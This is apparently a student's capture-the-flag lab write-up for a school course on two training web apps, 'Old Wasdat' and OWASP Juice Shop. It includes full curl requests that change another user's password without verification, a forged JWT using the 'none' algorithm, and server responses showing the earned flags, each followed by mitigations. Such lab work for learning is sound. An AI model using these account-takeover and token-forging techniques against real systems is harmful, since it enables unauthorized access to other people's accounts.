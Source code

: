```yaml
---
categories:
- Schoolwork
layout: post
media_subpath: /assets/posts/2025-01-25-Cryptographic-Fails
tags:
- JWT
- Cryptographic Failures 
title: School Tasks 1 - Web Application Security - Cryptographic Fails
---
```


## Task 1A - Old Wasdat – Change user’s password by using curl
***Description:*** 

The service accepts manipulated curl-request in order to change the password of specific user via changing the parameters of the original request. Also, the bio section must be
changed, or it will produce an internal server error.

***Vulnerability: CWE-620: Unverified Password Change***

***Steps to reproduce:***

• Create an account for this service and find the profile section, where you can change the password

• Open browser’s developer-tools to capture the traffic in this page.

• In the form change bio and password.

• Therefore, copy the cURL request from the network section for further modification

• As you can see the password in the request is in SHA-1, which is considered a severely vulnerable
encryption method. “SHA-1 is widely considered obsolete due to its well-documented vulnerabilities”, (Harish, Anusha).

• Now modify the request’s, bio and password strings. New password needs to be in SHA-1 format
also.

Here is my request:

````bash 
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64;
rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-
Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Authorization: Token eyJ0eX-
AiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQi-
O***********************************************************
**************************************************************pdHkiOjEsImZyZXNoIj
p0cnVlLCJ0eXBlIjoiYWNjZXNzIn0.l8q9iBlXgC09PcuMS2DxIzvcHfpRl4AKc6n-1wsoObI' -H 'Content-
Type: application/json;charset=utf-8' -H 'Origin: http://wasdat.fi:8080' -H 'Connection: keep-alive' -
H 'Referer: http://wasdat.fi:8080/' -H 'Cookie: language=en; welcomebanner_status=dismiss; cook-
ieconsent_status=dismiss; continue-
Code=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJvlAM1wWxalND5reZRLzmXk6BbmzZRb' -H 'Priority: u=0'
--data-raw '{"user":{"email":"wasdat-victim@example.com","username":"victim","bio":"thisneed-
stobechangedalso","image":null,"password":"b9333b50f2beb8aac0f0a65eabd0e0bb3ee5b234"}}'
Bio : thisneedstobechangedalso
Password : JAMK2025 (in SHA-1 format)
````



• This was the response from the website:

![](2025-02-18-15-53-02.png)

• Now make sure that the password was changed by logging in, here is my post request data and the
response:

![](2025-02-18-15-53-46.png)

The response was legit and now it’s confirmed that the payload for the password change worked.

***Impact estimation:***

• High severity: This vulnerability has a significant impact on gaining control of other user’s account,
but I will consider it as high not critical, because attacker need to gain access to this user's authentication token to carry out the successful change. Considering also that password is using weak encryption method.

***Mitigation:***

• Implement a validation for new password change. This would be example a section for previous
password to verify the author of the request or something different authetication method.


## Task 2A: Juice Shop – Exploiting Unsigned JWT


***Description:***

Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.
“JWT is a way to determine authorization between a user and a web server, without
the web server needing to keep track of sessions.”, (Hacker Bartender, 2021). Another way to au-
thenticate the client with the server.

***Vulnerability:*** Target supports none-algorithm.

***Steps to reproduce:***

• Start Burpsuite in order to capture the traffic between the server and the client

• Use proxy to intercept the traffic of an action while logged in as registered account (I used the password changing section for this

• You can identify the JSON Web Token in the request its in following format:

![](2025-02-18-15-57-29.png)

• Now you can use an optional JWT editor to craft the payload. In this payload you change the algorithm parameter in the header section into “none”. I found out that few editors didn’t accept to do
this, but I was able to craft it with this. (https://www.gavinjl.me/edit-jwt-online-alg-none/)

• Also, for this challenge you need to change from the data section the email address to the impersonators address (jwtn3d@juice-sh.op).

• Here is the crafted data and the payload:

![](2025-02-18-15-58-30.png)

Then this needs to be in Base64 format like in the original request to work, here is my crafted
````bash 
token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdGF0dXMi-
OiJzdWNjZXNz*****************************************IjoiIiwiZW1haWwiOiJqd3RuM2RAan
VpY2Utc2gub3AiL-
CJwYXNzd29yZCI6IjhmMDM2MzY5YTVjZDI2NDU0OTQ5ZTU5NGZiOWUwYTJkIiwicm9sZSI6I
6
mN1*******************************************************jAyNS0wMS0zMSAxOToxNDowNi4yMzEgK
zAwO******************************MS0zMSAxO-
ToxNDowNi4yMzEgKzAwOjAwIiwiZGVsZXRlZEF0Ijpud-
WxsfSwiaWF0IjoxNzM4MzUwODU2fQ.
````
• This will be placed in the authorization and cookie sections

• Then send the request

![](2025-02-18-16-00-03.png)

***Mitigation:***

• Disabling the application accepting “none” as algorithm

• Encrypting the token with more complex method

## Task 2B: Old wasdat – JWT Exploitation

***Steps to reproduce:***

• Start with capturing the network traffic with browser’s developer’s tools (another method is to capture the packet with Burpsuite and then copy the request as “curl-command”, this one I prefer

• Capture the packet from password changing event and copy it into “cURL”

• Here is my captured packet and I modified the algorithm into “none” and my student id into that
````bash
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'Authorization: Token eyJ0eXAiOiJKV1QiLCJhbGci-
O**********************************
*************************************
**********************************NTI3NCwiaWRlbnRpdHkiOjIsImZyZXNoIjp0cnVlLCJ0eX
BlIjoiYWNjZXNzIn0.' -H 'Content-Type: application/json;charset=UTF-8' --data-raw
'{"user":{"email":"attacker@example.com","username":"attacker","bio":"asdasdasdasdasdasdas-
daa","image":null,"password":"b9333b5*******************5b234"}}'
````
• In this packet I used the earlier challenge's SHA-1 password hash and by executing the
command, the flag appeared into the console:
````bash
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 02 Feb 2025 14:33:15 GMT
Content-Type: application/json
Content-Length: 162
Connection: keep-alive
Access-Control-Allow-Origin: http://0.0.0.0:4000
Vary: Origin
CurlFlagEarned: WasFlag4_1{PasswordSetWithCurl}
JWTFlagEarned: WasFlag4_2{AlgNoneShouldBeDead}
Access-Control-Allow-Origin: *
{
"user": {
"bio": "asdasdasdasdasdasdasdaa",
"email": "attacker@example.com",
"image": null,
"token": "",
"username": "attacker"
}
}
````
• This also confirms that the password has been changed.


## Sources

Harish, Anusha. SHA-256 vs. SHA-1: Which Is The Better Encryption?. Referenced 31.1.2025

[https://www.securew2.com/blog/what-is-sha-encryption-sha-256-vs-sha-1]

MITRE. CWE-620 - Unverified Password Change. 19.11.2024. Referenced 31.1.2025

[https://cwe.mitre.org/data/definitions/620.html]

Hacker Bartender. OWASP Juice Shop – Unsigned JWT. 2.10.2021. Referenced 31.1.2025

[https://www.hackerbartender.com/unsigned-jwt/]

Github. Whyiest – Juice Shop Write-up. 31.3.2024. Referenced 31.1.2025

[https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/5-stars/unsigned_jwt.md]